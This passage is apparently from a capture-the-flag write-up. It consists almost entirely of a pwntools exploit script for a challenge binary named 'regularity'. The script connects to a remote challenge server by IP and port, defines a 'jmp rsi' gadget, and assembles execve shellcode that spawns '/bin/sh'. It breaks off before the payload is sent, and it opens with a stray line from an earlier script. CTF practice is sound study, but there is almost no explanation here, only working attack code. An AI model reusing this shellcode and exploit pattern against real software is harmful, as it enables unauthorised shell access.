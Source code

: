 

    p.interactive()


### Regularity
    #!/usr/bin/python3

    from pwn import *
    import argparse
    from time import *


    parser = argparse.ArgumentParser(description='Exploit script')
    parser.add_argument('remote', nargs='?', default=None, help='Run the exploit on a remote server')
    args = parser.parse_args()

    exe = ELF('./regularity', checksec=False)
    #libc = ELF('./libc.so.6', checksec=False)
    #ld = ELF('./ld-linux-x86-64.so.2', checksec=False)
    #libc = exe.libc

    context.binary = exe
    context.terminal = ['wt.exe','-d', '.', 'wsl.exe', '-d', 'Ubuntu-22.04']

    info = lambda msg: log.info(msg)
    sla = lambda msg, data: p.sendlineafter(msg, data)
    sa = lambda msg, data: p.sendafter(msg, data)
    sl = lambda data: p.sendline(data)
    s = lambda data: p.send(data)
    sln = lambda msg, num: sla(msg, str(num).encode())
    sn = lambda msg, num: sa(msg, str(num).encode())

    def GDB():
        if args.remote is None:
            gdb.attach(p, gdbscript='''
            b* read+35

            c
            ''')
            input()

    if args.remote:
        p = remote('83.136.249.46',33766)  
    else:
        p = process(exe.path)  

    GDB()

    jump_rsi = 0x0000000000401041

    shell = asm(
        '''
        mov rbx, 29400045130965551
        push rbx

        mov rdi, rsp
        xor rsi, rsi
        xor rdx, rdx
        mov rax, 0x3b
        syscall
        ''',arch='amd64'
    )
